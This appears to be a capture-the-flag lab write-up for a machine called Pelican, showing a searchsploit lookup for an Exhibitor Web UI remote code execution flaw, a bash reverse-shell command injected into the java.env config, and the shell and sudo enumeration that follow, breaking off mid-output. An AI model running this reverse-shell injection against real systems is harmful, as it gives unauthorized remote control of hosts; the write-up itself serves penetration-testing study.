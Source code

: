 ============================================================================================================================
CUPS v2.2.10

============================================================================================================================

port 8081

┌──(kali㉿kali)-[~/offsec/pg-practice/Pelican]
└─$ searchsploit exhibitor
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution                                    | java/webapps/48654.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                    
┌──(kali㉿kali)-[~/offsec/pg-practice/Pelican]
└─$ searchsploit -m 48654.txt
  Exploit: Exhibitor Web UI 1.7.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48654
     Path: /usr/share/exploitdb/exploits/java/webapps/48654.txt
    Codes: CVE-2019-5029
 Verified: False
File Type: Unicode text, UTF-8 text, with very long lines (888)
Copied to: /home/kali/offsec/pg-practice/Pelican/48654.txt


go under config > click editing on > paste the following in java.env script: $(bash -i >& /dev/tcp/192.168.45.213/4444 0>&1)

click commit and then wait a min.....



charles@pelican:/opt/zookeeper/conf$ cat zoo.cfg
cat zoo.cfg
#Auto-generated by Exhibitor - Wed Jul 24 17:38:02 EDT 2024
#Wed Jul 24 17:38:02 EDT 2024
server.1=pelican\:2888\:3888
dataDir=/zookeeper/data
tickTime=2000
initLimit=10
clientPort=2181
syncLimit=5
dataLogDir=/zookeeper/data


charles@pelican:/opt/zookeeper$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
